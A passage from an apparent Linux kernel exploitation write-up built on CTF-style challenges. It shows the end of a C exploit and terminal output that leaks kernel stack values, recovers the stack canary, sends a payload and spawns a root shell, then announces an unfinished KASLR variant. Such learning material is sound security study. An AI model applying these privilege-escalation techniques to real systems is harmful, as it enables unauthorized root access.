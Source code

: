 ```c

	puts("[!] This should never be reached");
}
```

Now when you recompress and run you should get root.

```
/ $ ./exploit_two
[+] Saved state
[*] Opened module
[*] Leak at index 0: 0xffffffff81a29330
[*] Leak at index 1: 0x12
[*] Leak at index 2: 0x63083951eb55a600
[*] Leak at index 3: 0xffff888006892210
[*] Leak at index 4: 0xffffc900001bfe68
[*] Leak at index 5: 0x4
[*] Leak at index 6: 0xffff888006892200
[*] Leak at index 7: 0xffffc900001bfef0
[*] Leak at index 8: 0xffff888006892200
[*] Leak at index 9: 0xffffc900001bfe80
[*] Leak at index 10: 0xffffffff8184e047
[*] Leak at index 11: 0xffffffff8184e047
[*] Leak at index 12: 0xffff888006892200
[*] Leak at index 13: 0x0
[*] Leak at index 14: 0x7ffcf2685e00
[*] Leak at index 15: 0xffffc900001bfea0
[*] Leak at index 16: 0x63083951eb55a600
[*] Leak at index 17: 0xa0
[*] Leak at index 18: 0x0
[*] Leak at index 19: 0xffffc900001bfed8
[*] Canary value: 0x63083951eb55a600
[*] Sending payload...
[*] uid: 0
[*] Spawning shell.
/ # id
uid=0 gid=0
/ # 
```

### Exploit Three

Now for the third and final exploit, I will turn on KASLR. I have not done this yet but I will push my progress so far just because fuck it. Will update if I remember to.

### References

[Low Level Adventures](https://0x434b.dev/dabbling-with-linux-kernel-exploitation-ctf-challenges-to-learn-the-ropes/)

